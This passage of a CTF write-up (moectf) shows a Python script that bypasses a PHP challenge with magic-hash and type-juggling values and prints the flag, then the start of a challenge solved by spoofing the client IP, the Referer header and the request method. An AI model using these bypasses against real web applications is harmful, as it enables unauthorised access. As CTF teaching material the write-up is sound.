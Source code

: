 ```php
                echo "C is not wanted.<br/>"; 
                highlight_file(__FILE__); 
            } 
        } else { 
            echo "Too young too simple.<br/>"; 
            highlight_file(__FILE__); 
        } 
    } else { 
        echo "A is not wanted.<br/>"; 
        highlight_file(__FILE__); 
    } 
} 
```



```python
import requests

header = {}
cookie = {'d':'1e-222'}
postpayload = {"b":"19260817a","c":"QNKCDZO"}
r = requests.post('http://39.97.238.171:8002/?a=0&c=QNKCDZO', data=postpayload, cookies=cookie) 

print(r.text[:100])#输出响应主体

# A is OK!<br/>B is OK!<br/>C is OK!<br/>moectf{PHP_1s_the_besT_lAngu@ge}
```

`moectf{PHP_1s_the_besT_lAngu@ge}`

## 俄罗斯头套

> 200points
>
> http://39.98.86.109:10002/
>
> 头

```
你的ip是：██████████████████████
不是127.0.0.1的话我可不会给你flag哦 
```





```
你的ip是：127.0.0.1
什么？你不是从"https://www.baidu.com"来的？那可不行... 
```



```
你的ip是：127.0.0.1
什么？你用的不是POST请求？那可不行... 
```
